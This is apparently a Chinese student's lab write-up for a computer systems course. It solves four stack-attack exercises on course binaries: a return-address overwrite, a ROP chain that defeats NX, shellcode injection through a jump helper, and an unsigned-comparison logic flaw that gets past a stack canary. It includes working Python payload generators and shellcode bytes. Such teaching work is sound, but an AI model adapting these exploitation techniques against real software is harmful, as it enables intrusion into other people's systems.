




# 栈溢出攻击实验

## 题目解决思路


### Problem 1: 
- **分析**：
  通过`objdump`反汇编可以看到`func`函数中存在`strcpy`调用。`func`函数中局部变量缓冲区位于`%rbp-0x8`。由于`strcpy`不检查长度，所以可以通过输入超长字符串覆盖栈上的返回地址(网安也讲到缓冲区溢出攻击)。所以需要覆盖8字节的缓冲区和8字节的old`%rbp`，总共16字节的填充数据，然后将返回地址修改为`func1`的地址 `0x401216`，由`func1`输出为了通关信息。
  
- **解决方案**：
```python
import struct #为了方便把整数地址转换成字节串
padding=b'A'*16 #8字节用于缓冲区+8字节用于保存的rbp
func1=0x401216 #func1的地址：0x401216
addrb=struct.pack('<Q',func1) #需要把它变成内存原始的8个字节 '<'代表小端序 '<Q'代表8字节无符号整数 'struct.pack'函数把整数变成字节串
payload=padding+addrb
with open('ans1.txt','wb') as f:
    f.write(payload)
print("Payload written to ans1.txt")
```
运行 `./problem1 ans1.txt` 输出：
  ```
  Do you like ICS?
  Yes!I like ICS!
  ```
- **结果**：
  

### Problem 2:
- **分析**：
  Problem 2开启了NX保护，无法直接在栈上执行代码。根据大模型的解释，需要使用Return Oriented Programming技术。`func`函数中`memcpy`存在溢出漏洞，缓冲区同样需要8字节填充+8字节old`%rbp`。目标是跳转到`func2`，但`func2`要求第一个参数`%rdi`必须为`0x3f8`。这在反汇编代码中体现为：
  ```assembly
  401222:       89 7d fc                mov    %edi,-0x4(%rbp)
  401225:       81 7d fc f8 03 00 00    cmpl   $0x3f8,-0x4(%rbp) ; 比较参数是否为 0x3f8
  ```
  函数的前几个参数是通过寄存器传递的，第一个参数就是`%rdi`。因为不能直接修改寄存器，但可以在栈上布置数据。所以需要找到一段指令（Gadget），它能把栈里的数据弹出来放到`%rdi`里。
  在程序中我找到了`pop rdi; ret`的gadget。然后先用Padding填满缓冲区和old1`%rbp`。此后的第一个返回地址填入Gadget地址*(`0x4012c7`)。紧接着填入参数`0x3f8`。当Gadget执行`pop rdi`时，这个值会被弹出并存入`%rdi`寄存器。最后填入`func2`地址。当Gadget执行`ret`时，程序会跳转到这里。

- **解决方案**：
```python
import struct
padding=b'A'*16 #同理
pop_rdi=0x4012c7 #Gadget地址:pop rdi;ret
arg=0x3f8 #参数:0x3f8
func2=0x401216 #Func2地址
payload=padding+struct.pack('<Q',pop_rdi)+struct.pack('<Q',arg)+struct.pack('<Q', func2)
with open('ans2.txt','wb') as f:
    f.write(payload)
print("Payload written to ans2.txt")
```
  运行`./problem2 ans2.txt`输出：
  ```
  Do you like ICS?
  Welcome to the second level!
  Yes!I like ICS!
  ```
- **结果**：
  

### Problem 3: 
- **分析**：
  Problem 3没有NX保护，可以使用 Shellcode。通过分析`func1`的汇编代码 (`cmpl $0x72,-0x44(%rbp)`) 可知，只要参数为 114 (0x72)，`func1`就会输出通关信息，因此这个问题的目标是调用 `func1`。
  首先，直接编写一段Shellcode，功能是：`mov rdi,114`(准备参数)->`mov rax, 0x401216`(func1地址)->`call rax`。然后将Shellcode放在缓冲区的开头。接着`func`函数中`memcpy`导致栈溢出，缓冲区大小32字节。然后要填满缓冲区空间，再覆盖old`%rbp`。最后关键在于如何跳转回栈上执行代码，我发现程序提供了一个特殊的函数`jmp_xs`(`0x401334`)，它会跳转到`saved_rsp+0x10`，这正好指向缓冲区的起始位置。所以我们将返回地址覆盖为`jmp_xs`的地址。函数返回时跳到`jmp_xs`然后跳回栈顶执行Shellcode，最后成功调用 `func1`。

- **解决方案**：
```python
import struct
# 缓冲区大小：32字节
# 调用func1(114)的Shellcode
# func1地址:0x401216
# 参数:114 (0x72)
shellcode=b'\x48\xc7\xc7\x72\x00\x00\x00'  # mov rdi,0x72 把114赋值给参数寄存器 rdi
shellcode+=b'\x48\xc7\xc0\x16\x12\x40\x00' # mov rax,0x401216 把func1的地址放入 rax
shellcode+=b'\xff\xd0'                     # call rax 调用func1
pad_len=32-len(shellcode) #将shellcode填充至32字节
payload=shellcode+b'\x90'*pad_len
payload+=b'B'*8
jmps=0x401334# jmps跳转到 (saved_rsp+0x10)，即缓冲区的起始位置。
payload+=struct.pack('<Q',jmps)
with open('ans3.txt','wb') as f:
    f.write(payload)
print("Payload written to ans3.txt")
```
  运行 `./problem3 ans3.txt` 输出：
  ```
  Do you like ICS?
  Now, say your lucky number is 114!
  If you do that, I will give you great scores!
  Your lucky number is 114
  ```
- **结果**：


### Problem 4: 
- **分析**：
  Problem 4 开启了 Canary 保护。
  在`func`函数的开头（地址`0x136c`），程序从`%fs:0x28`处读取一个随机值（Canary）并存入栈中`%rbp-0x8`的位置：
  ```assembly
  136c:       64 48 8b 04 25 28 00    mov    %fs:0x28,%rax
  1375:       48 89 45 f8             mov    %rax,-0x8(%rbp)
  ```
  在函数返回前（地址`0x140a`），程序会检查该位置的值是否被修改：
  ```assembly
  140a:       48 8b 45 f8             mov    -0x8(%rbp),%rax
  140e:       64 48 2b 04 25 28 00    sub    %fs:0x28,%rax
  1417:       74 05                   je     141e <func+0xc1>
  1419:       e8 b2 fc ff ff          call   10d0 <__stack_chk_fail@plt>
  ```
  如果发生栈溢出，Canary值会被改写，导致程序崩溃。
  然而，这题实际上不需要利用栈溢出。程序逻辑中存在漏洞。我在反汇编代码中看到，在比较输入值之前，程序将输入作为无符号整数处理。
  汇编中`cmpl $0xfffffffe, -0x10(%rbp)`和`jae`指令决定了是否进入主要逻辑。
  当输入`-1`(`0xffffffff`)时，`0xffffffff>=0xfffffffe`，准备执行循环。
  循环体的具体汇编代码如下（地址`0x13c9`-`0x13d7`）：
  ```assembly
  13c9:       83 6d e8 01             subl   $0x1,-0x18(%rbp)  ; 变量1自减
  13cd:       83 45 ec 01             addl   $0x1,-0x14(%rbp)  ; 计数器自增
  13d1:       8b 45 ec                mov    -0x14(%rbp),%eax
  13d4:       3b 45 f0                cmp    -0x10(%rbp),%eax
  13d7:       72 f0                   jb     13c9 <func+0x6c>  ; 若计数器<0xfffffffe 继续循环
  ```
  这个循环会执行 `0xfffffffe` 次。循环结束后，程序会进行后续检查（判断原始输入是否为`-1`），通过逻辑判定。因此，输入`-1`既满足了进入循环的条件(`jae`)，也满足了循环后的最终检查。

- **解决方案**：
  不需要编写Python生成payload，直接在终端与程序交互。在终端输入`./problem4`当程序给出回答时，输入 `-1`，每回答一次输入一次。
  运行输出：
  ```
  hi please tell me what is your name?
  hi! do you like ics?
  if you give me enough yuanshi,I will let you pass!
  your money is 4294967295
  great!I will give you great scores
  ```
- **结果**：


## 思考与总结

通过本次实验，我深入理解了底层漏洞。Problem1、2、3让我理解了缓冲区溢出：从基础的覆盖返回地址，到NX保护下利用ROP绕过，再到注入Shellcode(这里网络安全里有做实验)。这一系列攻击展示了无边界检查函数的危险性。特别值得一提的是Problem 4。在开启Canary保护下，我无法破坏栈，但通过汇编代码中的逻辑漏洞。输入`-1`(`0xffffffff`) 骗过无符号比较进入循环。该循环执行`0xfffffffe`次，导致输入值被减去同样次数`0xffffffff-0xfffffffe=1`。这巧合地满足了循环后结果必须为1的检查，从而通关。这种数学游戏般的攻击方式让我意识到，除了内存破坏，逻辑缺陷和整数溢出同样危险，这次实验让我拓阔了眼界和意识到网络安全的重要性。

## 参考资料
1. GDB Documentation: https://sourceware.org/gdb/current/onlinedocs/gdb/
